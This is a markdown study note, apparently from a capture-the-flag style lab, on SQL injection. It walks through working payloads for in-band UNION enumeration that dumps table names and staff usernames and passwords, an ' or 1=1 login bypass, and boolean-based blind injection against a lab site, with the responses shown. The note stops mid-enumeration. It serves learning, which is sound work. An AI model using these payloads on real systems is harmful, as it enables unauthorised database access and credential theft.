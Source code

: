 ![](Pasted%20image%2020241116223725.png)

# [Introduction]

In this case attacker exploit vulnerable input field in the web page to gain access of the database. Attacker inserts SQL command in the input field that interact with the database.
# [Example]

![](Pasted%20image%2020241116225912.png)

![](Pasted%20image%2020241116225956.png)

# SQL Injection Snippets

## Example 0: Check SQL Injection Vulnarability

use `'` or `"` to know if the input field is vulnerable to SQL injection.

## Example 1: In-band SQL Injection (reflected)

```sql
1 UNION SELECT 1
```

- If above gives error add another until success

```sql
0 UNION SELECT 1,2
```

```sql
0 UNION SELECT 1,2,3
```

- Above gives no error so look for database

```sql
0 UNION SELECT 1,2,database()
```

- `sqli_one` is the database name found. Get list of tables

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

- Fond `article,staff_users` tables. Get column from `staff_users`

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

- Found `id,password,username` columns. Let's get username and passwords

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
## Example 2: Blind SQL Injection: Bypass Auth

- Inserting below will result `true` for any input

```sql
' or 1=1;--
```

## Example 3: Blind SQL Injection: Boolean Based

`https://website.thm/checkuser?username=admin` this page returns `{"taken":true}`. For username query parameter we will put below sql snippet.

- Similar to example 1, select 1 if error/fail look for select 1,2 and so one

```sql
admin123' UNION SELECT 1;--
```
```
Response:
{"taken":false}
```

```sql
admin123' UNION SELECT 1,2;--
```
```
Response:
{"taken":false}
```

```sql
admin123' UNION SELECT 1,2,3;--
```
```
Response:
{"taken":true}
```

- Now the response `taken` is `true`, look for database.

```sql
admin123' UNION SELECT 1,2,3 where database() like '%';--
```
```
Response:
{"taken":true}
```

```sql
admin123' UNION SELECT 1,2,3 where database() like 's%';--
```
```
Response:
{"taken":true}
```

- Brute force the name using `database() like 'sa%'` `, database() like 'sa%'`  as the received output is true or false until get  the database name. In this case it is `sqli_three`

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three';--
```
```
Response:
{"taken":true}
```

- Brute force table name until response is true

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
```

